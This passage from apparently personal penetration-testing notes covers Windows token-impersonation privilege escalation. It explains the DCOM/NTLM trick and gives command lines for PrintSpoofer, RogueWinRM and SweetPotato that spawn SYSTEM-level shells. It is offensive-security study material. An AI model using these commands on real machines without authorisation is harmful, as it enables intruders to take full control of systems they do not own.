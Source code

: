 https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html

Any process holding this privilege can impersonate (but not create) any token for which it is able to gethandle.
You can get a privileged token from a Windows service (DCOM) making it perform an NTLM authentication against the exploit, then execute a process as SYSTEM.
Exploit it with [juicy-potatato](https://github.com/ohpe/juicy-potato) or [RougueWinRM](https://github.com/antonioCoco/RogueWinRM) (need winRM disabled) or [SweetPotato](https://github.com/CCob/SweetPotato) or [PrintSpoofer](https://github.com/itm4n/PrintSpoofer).


Some commands for these tools:

1. **PrintSpoofer** (My favorite) : ```PrintSpoofer.exe -i -c powershell```
![demo](https://user-images.githubusercontent.com/81341961/148654464-e8ba8203-5e7c-4ee2-a810-4e2f951381e6.gif)
2. **RogueWinRM** : ```RogueWinRM.exe -p C:\windows\system32\cmd.exe``` or ```RogueWinRM.exe -p C:\windows\system32\cmd.exe -a "powershell"```
3. **SweetPotato** : ```SweetPotato.exe -a whoami```
4. **Juicy Potato** : Haven't practiced with this yet.

